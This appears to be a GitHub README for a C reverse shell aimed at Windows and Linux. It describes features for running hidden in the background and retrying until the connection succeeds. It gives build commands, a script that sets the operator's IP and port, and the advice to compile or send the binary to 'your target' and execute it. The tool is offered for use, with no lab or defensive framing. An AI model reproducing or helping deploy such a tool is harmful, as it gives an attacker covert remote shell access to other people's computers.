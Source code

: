 # c-reverse-shell

## Info

A reverse shell for Windows and Linux written in C.

Features:
- Works on Linux and Windows.
- Just one `.c` file (`linux.c` or `windows.c`).
- Runs in the background (on both, Linux and Windows, no blocking terminal or black screen).
- You can choose between waiting for the client (if it's no listening) or not.
- Compile with just one command (see at the bottom of the `README.md`), there is also a `Makefile`.

## Dependencies

For Windows you will need `mingw-w64` compiler (the `.exe` binary is compiled in linux):
```sh
sudo apt install gcc-mingw-w64
```

## How to use

1. Clone repo:
```sh
git clone https://github.com/izenynn/c-reverse-shell.git
```

2. Change client IP and client PORT with `change_client.sh` (you can change it manually inside `linux.c` and `windows.c` if you prefer):
```sh
./change_client.sh [CLIENT_IP] [CLIENT_PORT]
```

3. Compile for Linux and Windows with `make` (equivalent to `make all`):
```sh
make
```

4. And ✨ magic ✨ compile the program in your target, or just send the binary, and execute it, make sure your client is listening 😊.

Additionally you can compile with `WAIT_FOR_CLIENT` true, this will make the program loop until the connection to the client is established, instead of returning an error in the connection:
```sh
make WAIT_FOR_CLIENT=TRUE
```
*NOTE: this doen't work on windows, not sure why, but I'm sleepy, so maybe I fix it another day (or pull request if you fix it please 😊).*

Other `Makefile` rules:
- `make all`
- `make linux`
- `make windows`
- `make re`
-
- `make all WAIT_FOR_CLIENT=TRUE`
- `make linux WAIT_FOR_CLIENT=TRUE`
- `make windows WAIT_FOR_CLIENT=TRUE`
- `make re WAIT_FOR_CLIENT=TRUE`
-
- `make clean`

In case you don't have the `Makefile`, just copy the `reverse-shell.c` file and compile it with the following command:
- Linux
```sh
gcc -std=c99 linux.c -o rsh.out
```
```sh
gcc -std=c99 linux.c -o rsh.out -D WAIT_FOR_CLIENT
```
- Windows:
```sh
i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o rsh.exe -lws2_32
```
```sh
i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o rsh.exe -lws2_32 -D WAIT_FOR_CLIENT
```

##
[![forthebadge](https://forthebadge.com/images/badges/made-with-c.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/thats-how-they-get-you.svg)](https://forthebadge.com)
